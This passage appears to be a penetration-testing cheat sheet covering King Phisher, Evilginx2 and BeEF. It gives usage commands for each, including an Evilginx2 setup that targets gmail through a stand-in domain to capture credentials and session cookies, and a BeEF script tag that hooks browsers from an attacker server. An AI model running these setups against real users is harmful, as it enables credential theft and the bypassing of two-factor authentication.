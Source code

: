 ### King Phisher
**Description:** Tool for testing and promoting user awareness by simulating real-world phishing attacks in a controlled environment.

**Usage:**
```bash
# Start King Phisher server
king-phisher-server

# Start King Phisher client
king-phisher-client

# Configure campaign settings
# Create message templates
# Set up landing pages
# Launch campaign
# Analyze user interactions
```

### Evilginx2
**Description:** Man-in-the-middle attack framework used for phishing login credentials along with session cookies, allowing for bypassing 2-factor authentication.

**Usage:**
```bash
# Start Evilginx2
sudo evilginx2

# Set up phishlet for target service
phishlets hostname gmail evilsite.com
phishlets enable gmail

# Create lure URL
lures create gmail
lures get-url 0

# Monitor captured sessions
sessions
```

### BeEF (Browser Exploitation Framework)
**Description:** Penetration testing tool that focuses on the web browser to assess security posture through client-side attack vectors.

**Usage:**
```bash
# Start BeEF
./beef

# Access control panel at http://127.0.0.1:3000/ui/panel
# Default credentials: beef/beef

# Hook browsers using JavaScript payload
<script src="http://your-beef-server:3000/hook.js"></script>

# Execute browser exploits
# Social engineering attacks
# Information gathering
```
